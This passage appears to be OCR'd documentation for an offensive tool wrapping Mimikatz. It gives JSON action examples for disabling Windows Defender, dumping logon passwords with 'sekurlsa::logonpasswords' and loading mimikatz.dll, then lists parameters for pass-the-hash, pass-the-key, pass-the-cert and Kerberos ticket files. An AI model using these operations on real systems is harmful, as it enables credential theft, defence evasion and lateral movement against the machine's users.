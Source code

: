 ```bash
{
  "action": "disable_defender",
  "target_process": "powershell.exe"
}
```

### Custom Operations
```bash
# Custom command
{
  "action": "custom_command",
  "custom_command": "sekurlsa::logonpasswords"
}

# Script execution
{
  "action": "script_execution",
  "script_content": "sekurlsa::logonpasswords"
}

# Module load
{
  "action": "module_load",
  "module_name": "mimikatz.dll"
}

# Plugin execute
{
  "action": "plugin_execute",
  "plugin_name": "sekurlsa"
}
```

## Parameters

### Target Parameters
- **target_user**: Target user for operations
- **target_domain**: Target domain
- **target_dc**: Target domain controller
- **target_computer**: Target computer
- **target_process**: Target process name or PID

### Authentication Parameters
- **username**: Username for authentication
- **password**: Password for authentication
- **hash_value**: Hash value (NTLM, LM, etc.)
- **key_value**: Key value for pass-the-key
- **certificate**: Certificate for pass-the-cert

### File Parameters
- **ticket_file**: Ticket file path
- **ticket_format**: Ticket format (kirbi, ccache, tgt, st)
- **input_file**: Input file path
- **output_file**: Output file path
- **dump_file**: Memory dump file path
